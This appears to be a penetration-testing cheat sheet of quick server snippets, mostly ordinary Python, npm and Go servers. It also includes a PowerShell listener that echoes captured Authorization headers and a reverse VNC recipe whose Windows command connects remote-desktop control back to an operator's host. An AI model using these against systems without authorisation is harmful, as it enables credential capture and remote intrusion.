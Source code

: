 # Simple HTTPS Python 3.X server
```python
# sudo python3
from http.server import HTTPServer, SimpleHTTPRequestHandler
import ssl, os
os.system("openssl req -nodes -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -subj '/CN=mylocalhost'")
port = 443
httpd = HTTPServer(('0.0.0.0', port), SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, keyfile='/tmp/key.pem', certfile="/tmp/cert.pem", server_side=True)
print(f"Server running on https://0.0.0.0:{port}")
httpd.serve_forever()
```

# Simple HTTP Python 3.X server
```sh
python3 -m http.server 8000
```

# Simple HTTP Python 2.X server
```sh
python -m SimpleHTTPServer 8000
```

# Simple HTTP npm server via npx
```sh
npx http-server -p 8000
```

# A PowerShell Server to return the Authorization header
```powershell
$http = [System.Net.HttpListener]::new() 
$http.Prefixes.Add("http://localhost:10080/")
$http.Start()
$context = $http.GetContext()
write-host $context.Request.Headers.GetValues("Authorization")
$buffer = [System.Text.Encoding]::UTF8.GetBytes($context.Request.Headers.GetValues("Authorization"))
$context.Response.ContentLength64 = $buffer.Length
$context.Response.OutputStream.Write($buffer, 0, $buffer.Length)
$context.Response.OutputStream.Close()
```

# [Reverse VNC](https://blog.kennyjansson.com/2018/03/04/reverse-vnc-shell/)
## Server - Linux
```sh
vncviewer -listen 0
```

## Client - Windows
```batchfile
:: https://www.tightvnc.com/download.php
:: the file can be unpacked from MSI using 7z
tvnserver.exe
:: cmd /c tvnserver
tvnserver.exe -controlapp -connect <linux_ip>:5500
```

# [Golang Echo Server](https://github.com/ibihim/echo-server)
```batchfile
git clone https://github.com/ibihim/echo-server
cd echo-server
go build
```
